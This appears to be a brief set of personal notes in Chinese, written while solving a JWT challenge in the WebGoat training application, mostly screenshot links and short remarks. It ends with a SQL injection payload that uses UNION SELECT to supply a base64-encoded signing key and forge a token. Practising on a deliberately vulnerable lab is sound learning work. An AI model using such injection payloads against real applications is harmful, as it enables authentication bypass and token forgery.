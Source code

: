 ![](../../images/Pasted%20image%2020241211111324.png)
好像也没什么问题
算了不管了
好像还不能不管
这个必须是一个能被base64解密的东西emmmm
![](../../images/Pasted%20image%2020241211111627.png)
卡住了，去找了一下数据库本体
就是那个webgoat.script里的
![](../../images/Pasted%20image%2020241211114612.png)

还是要注入，这样写好像就可以了，这个是webgoat_key的base64加密

```
SELECT key FROM jwt_keys WHERE id = 'test' UNION SELECT 'd2ViZ29hdF9rZXk=' from jwt_keys--
```
